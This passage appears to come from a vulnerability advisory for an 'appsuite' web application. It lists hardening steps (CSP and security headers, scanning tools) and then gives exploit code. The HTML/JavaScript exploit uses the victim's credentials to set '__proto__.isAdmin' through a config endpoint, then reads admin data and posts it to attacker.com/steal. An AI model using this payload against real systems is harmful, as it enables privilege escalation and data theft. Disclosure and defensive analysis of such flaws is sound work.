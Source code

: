 ### Long-Term Hardening  
1. **Content Security Policy**:  
   ```http  
   Content-Security-Policy: script-src 'self';  
   ```  

2. **Security Headers**:  
   ```http  
   X-Content-Type-Options: nosniff  
   X-Frame-Options: DENY  
   ```  

3. **Regular Audits**:  
   - Static analysis with Semgrep/SonarQube  
   - Dynamic analysis with Burp Suite/OWASP ZAP  


## Exploit Code  
```html  
<!-- attacker.com/exploit.html -->  
<script>  
function exploit(targetUrl) {  
    fetch(`${targetUrl}/appsuite/api/config/set`, {  
        method: 'POST',  
        headers: {'Content-Type': 'application/json'},  
        body: JSON.stringify({  
            key: '__proto__.isAdmin',  
            value: true  
        }),  
        credentials: 'include'  
    }).then(() => {  
        fetch(`${targetUrl}/appsuite/api/admin/data`, {  
            credentials: 'include'  
        }).then(response => response.json())  
          .then(data => {  
             exfiltrate(data);  
        });  
    });  
}  

function exfiltrate(data) {  
    fetch('https://attacker.com/steal', {  
        method: 'POST',  
        body: JSON.stringify(data)  
    });  
}  

// Trigger when victim visits  
exploit('https://victim-appsuite.com');  
</script>  
```  

